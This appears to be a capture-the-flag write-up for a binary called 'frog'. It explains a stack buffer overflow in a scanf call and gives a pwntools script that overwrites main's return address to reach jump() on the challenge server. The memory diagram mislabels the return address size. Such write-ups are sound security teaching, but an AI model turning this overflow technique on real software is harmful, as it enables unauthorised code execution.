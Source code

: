 ```c
  sVar1 = read(local_c,&local_28,0x1a);
  if (sVar1 != 0x1a) { // WARNING: Subroutine does not return
    exit(1);
  }
  puts((char *)&local_28);
  fflush(stdout);
  return 0;
}
```

We need to find a vulnerability and make the `main()` function somehow run the `jump()` function.

**Note:** The `flag` file is missing on our local computer, but it exists in the CTF server. To run the program on the CTF server we need to use `nc 20.166.26.247 1337` instead of `./frog`.

Looking at the `__isoc99_scanf("%129s",local_78);` line, we can see that we are scanning 129 bytes into a buffer, but the buffer is only of size **112 bytes**. Then, looking at the `printf("Goodbye %s!\n",local_78);` line we are printing out the buffer back.

Using IDA, we can inspect the `jump()` function and see that its starting address is `00000000004011F6`.

Knowing C and its vulnerabilities, we can create a malicious string in this way:

`120 bytes of any char` + `8 bytes which represent the jump() function address` + `\n (1 byte)`

When giving it as an input to the program, it will cause a Buffer Overflow and make the return address of the `main()` function to be the `jump()` function address. So, instead of exiting the program will print out the flag!

Looking at the memory we can see how it works:

```text
[----buffer----][---idk--][--return address--]
[-----112B-----][---8B---][-------1B---------]
[-------------scanf bytes (129)--------------]
[AAAAA...AAAAAA][AAAAAAAA][0x00000000004011F6]
```

Let's create a Python script which will do that for us:

```python
from pwn import *

# Connect to the remote server
r = remote('20.166.26.247', 1337)

# The p64() function is used to convert a 64-bit integer into a little-endian byte string, which is necessary when exploiting certain types of vulnerabilities
def p64(addr):
    return addr.to_bytes(8, byteorder='little')

# According to IDA, this is the address of the jump() function
jump_addr = 0x00000000004011F6

# Craft the input to overwrite the return address of main with the address of jump
# You'll need to replace the addresses below with the actual addresses of main and jump
payload = b'A' * 120 + p64(jump_addr)
# Must be exactly 120 bytes and then the 8 bytes of the 'jump' function

# Send the input to the server (after getting the name prompt)
r.sendlineafter('name? \n', payload)

# Read the output to get the flag
print(r.recvall())
```
